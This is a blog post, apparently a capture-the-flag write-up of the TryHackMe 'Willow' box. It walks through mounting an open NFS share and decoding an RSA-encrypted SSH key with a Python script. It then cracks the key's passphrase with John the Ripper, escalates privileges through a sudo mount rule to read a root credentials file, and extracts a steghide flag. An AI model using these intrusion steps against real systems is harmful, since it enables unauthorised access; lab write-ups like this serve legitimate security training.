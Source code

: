 ```yaml
---
layout: post
title:  "THM - Willow"
date:   2020-08-08 20:00:00 +1000
category: hacking
---
```


## Introduction
*What lies under the Willow Tree?*  

This one is Medium rated with no hints. Let's begin.

## Ports
nmap says we've got four ports: 22 (SSH), 80 (HTTP), 111 (RPCBind) and 2049 (NFS). So that's interesting.

## NFS
Let's go check out the NFS share.

``
mkdir mountpoint
``
``
mount -t nfs 10.10.226.215:/ ./mountpoint/
``

In the mount we have a file; **rsa_keys**. In that, we get this:
>Public Key Pair: (23, 37627)  
Private Key Pair: (61527, 37627)

And that's all we've got to go on. But, it's a start.

## Webserver
On the website, all we get is a big old bunch of numbers, i.e:

>4865792057696c6c6f772c2068657265277320796f75722053534820507 *snip*

Actually if we look closely, the first bit is different - it's hexadecimal. That decodes to:

>Hey Willow, here's your SSH Private key -- you know where the decryption key is!.

So presumably the rest of it (and there is a lot)  is the SSH key, encoded with RSA....

## RSA
*Edit: after I was done with this, I went and checked some other writeups. Turns out the whole thing was hex and I could've saved myself some messing about by just hex decoding the whole lot right away. But, I didn't realise that at the time and ended up working a bit harder and dumber. Lol. Here's what I did:*

So we've got **e**, **d** and **n** for our RSA decryption, but the cipher won't decode nicely just the way it is. There may be some simple way around this, but for me it was just looking at the data and trying to figure out what was going on. It helps knowing that an RSA private key begins with 

*-----BEGIN RSA PRIVATE KEY-----* 

and ends with

*-----END RSA PRIVATE KEY-----*

I tried encoding a few of these characters to find out what they were supposed to encode to, and that helped. 

Eventually I figured out that we had a *bunch* of extra 3's in there. In fact, just about every second character was a superfluous '3'. Stripping those out got us close, but not all the way there. We also had a bunch of extra zeros; usually every fifth character but not always. Sort of like a reversed evil FizzBuzz. In the end I wrote some python code to clean up the cipher:

{% highlight python %}
stripped = ''
timesincelast = 0

with open('ciper.txt', 'r') as f:
    data = f.read()
    data_as_str = str(data)
       
    
for index,char in enumerate(data_as_str):
    if index % 2 != 0:
        stripped += char
            
for index, char in enumerate(stripped):
        if index - 1 < len(stripped):
            next = stripped[(index + 1)]
            if char == '0' and next != '0' and timesincelast > 3:
                print (' ', end='')
                timesincelast = 0
            else:
                print(char, end='')
                timesincelast += 1
{% endhighlight %}

## Decode
Once I had the cleaned up ciper I dropped it into this [website](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) and got out an encoded SSH key. John can deal with that:

{% highlight shell %}
root@kali:/opt/tryhackme/willow# python /usr/share/john/ssh2john.py id_rsa_enc > id_rsa_john  
root@kali:/opt/tryhackme/willow# john id_rsa_john -w=/usr/share/wordlists/rockyou.txt  
Warning: UTF-8 seen reading id_rsa_john  
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])  
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes  
Cost 2 (iteration count) is 1 for all loaded hashes  
Will run 4 OpenMP threads  
Note: This format may emit false positives, so it will keep trying even after  
finding a possible candidate.  
Press 'q' or Ctrl-C to abort, almost any other key for status  
REDACTED       (id_rsa_enc)  
{% endhighlight %}

## Willow
With this information and the chmodded key we can log in as Willow. The user flag is in a jpg, so we can't easily view it through SSH. Hmmmm.

Fortunately, we can grab it with scp:

``
root@kali:/opt/tryhackme/willow# scp -i id_rsa_enc willow@10.10.21.220:/home/willow/user.jpg user.jpg
``

And then we can view the file and get the flag. Next, let's see what Willow can do back on the box:

{% highlight shell %}
willow@willow-tree:~$ sudo -l  
Matching Defaults entries for willow on willow-tree:  
    env_reset, mail_badpass,   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  

User willow may run the following commands on willow-tree:  
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*  
{% endhighlight %}

## Privesc
Checking in /dev/, we can find an interesting directory. Let's check it out:

{% highlight shell %}
willow@willow-tree:/dev/shm$ mkdir /tmp/mnt  
willow@willow-tree:/dev/shm$ sudo mount /dev/hidden_backup /tmp/mnt  
willow@willow-tree:/dev/shm$ cd /tmp/mnt/  
willow@willow-tree:/tmp/mnt$ ls -lash  
total 6.0K  
1.0K drwxr-xr-x  2 root root 1.0K Jan 30  2020 .  
4.0K drwxrwxrwt 11 root root 4.0K Aug  8 13:36 ..  
1.0K -rw-r--r--  1 root root   42 Jan 30  2020 creds.txt  
willow@willow-tree:/tmp/mnt$ cat creds.txt  
root:REDACTED
willow:REDACTED
{% endhighlight %}

Cool, let's do **su root** and grab the flag!

{% highlight shell %}
root@willow-tree:~# cat root.txt
This would be too easy, dont you think? I actually gave you the root flag some time ago.
Youve got my password now -- go find your flag!
{% endhighlight %}

Wait, what? Haha...what could that mean?

{% highlight shell %}
root@kali:/opt/tryhackme/willow# steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
{% endhighlight %}

And that's where the flag was!

What a cracking box, I enjoyed this one. Thanks [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle).
